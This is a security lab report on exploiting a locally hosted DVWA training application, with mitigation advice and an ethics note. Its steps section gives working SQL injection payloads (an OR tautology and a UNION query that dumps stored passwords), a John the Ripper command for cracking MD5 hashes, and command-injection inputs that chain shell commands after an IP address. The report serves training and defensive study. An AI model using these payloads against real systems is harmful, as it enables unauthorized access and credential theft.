

# Lab Report — Accessing Admin Panel (DVWA)

**Author:** [Matthew Chidiebere Chukwuorji]  
**Date:** 2025-09-12  
**Target:** DVWA (Damn Vulnerable Web Application) running locally on Kali (`http://127.0.0.1/dvwa`)  
**Scope:** Local lab / authorized testing only

---

## 1. Objective
Demonstrate exploitation techniques (SQL Injection and Command Injection) on a controlled DVWA instance to access the admin panel, extract credentials, and demonstrate remote command execution as the web user.

---

## 2. Environment
- Host OS: Kali Linux (local VM)  
- Application: DVWA (installed at `/var/www/html/dvwa`)  
- Services: Apache2, MySQL  
- DVWA Security level: **Low**

---

## 3. Vulnerabilities Identified
1. **SQL Injection — Authentication & Data Exfiltration (High)**  
   - Unsanitized input allowed injection and `UNION` queries to enumerate and exfiltrate data from the `users` table.

2. **Command Injection — Remote Command Execution (High)**  
   - The ping/host input was passed to a shell enabling arbitrary command execution as the web server user.

3. **Weak Password Storage — MD5 (High)**  
   - Passwords were stored using MD5 which facilitated rapid cracking of extracted password hashes.

---

## 4. Steps Performed (reproducible)
> Ensure DVWA is running locally and Security = Low.

### A. Verify SQL Injection
1. DVWA → **SQL Injection** lab.  
2. Input: 1' OR '1'='1
3. Result: Multiple rows returned confirming SQL injection.
   1. Screenshot: 'screenshots/SQL_Injection.png'

   ### B. Extract credentials via UNION
1. SQLi lab input: ' UNION SELECT user, password FROM users#
2. Result: Returned rows containing `user` and `password` (hashes or plaintext). Saved the hash to `hashes.txt`.
   1. Screenshot: 'screenshots/sql.png'

### C. Crack MD5 hashes
1. save the hash
   '''bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt

### crack with John (MD5)
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
sudo john --show --format=raw-md5 hashes.txt
Result: cracked passwords saved
   1. Screenshot: 'screenshots/password.png'

### D. Command Injection Payloads
1. 127.0.0.1 && uname -a- show OS info
2. 127.0.0.1 && id - show effective user
3. 127.0.0.1 && ls -la /var/www/html - list webroot directory

## 5. Severity
1. SQL Injection: High (direct access to sensitive data and authentication bypass).
2. Command Injection: High (remote command execution).
3. MD5 password storage: High (practical to crack weak passwords).
4. Overall risk: High for a production system

## 6. Impact

1.Full disclosure of user credentials (including admin).

2. Unauthorized administrative access to web app (dashboard).

3. Data exfiltration, account takeover, and lateral movement potential.

4. Remote command execution as web user — may enable privilege escalation.

5. Business impact: Severe (data breach, regulatory risk, reputational/financial loss).

6. Availability: Medium (attacker could deface or disrupt services).

7. Integrity: High (attacker can modify or delete data).

8. Confidentiality: High (attacker can access admin-only data).

## 7. Mitigation & Recommendations

### Immediate

1. Harden deployment (remove test pages), keep DVWA off public networks, and enforce rate-limiting/account lockout.

2. Replace MD5-stored passwords and force resets if this were production.

### Developer / code changes

1. Use parameterized queries / prepared statements (no string concatenation).

2. Never pass raw user input to shell commands; use safe libraries/APIs and strict whitelists (e.g., IPv4 regex).

3. Migrate password storage to bcrypt/Argon2 with per-user salts and proper cost factor.

4. Ensure DB accounts are least-privilege.

### Operational

1. Deploy a WAF to detect/block SQLi/command injection patterns.

2. Enable logging, monitoring, and alerting for suspicious activity.

3. Schedule SAST/DAST scans and developer secure-coding training 

## 8. Ethics & Notes

All testing and evidence were produced on a local DVWA instance under my control. Do not run these tests against systems you do not own or have explicit written permission to test.

## Screenshots

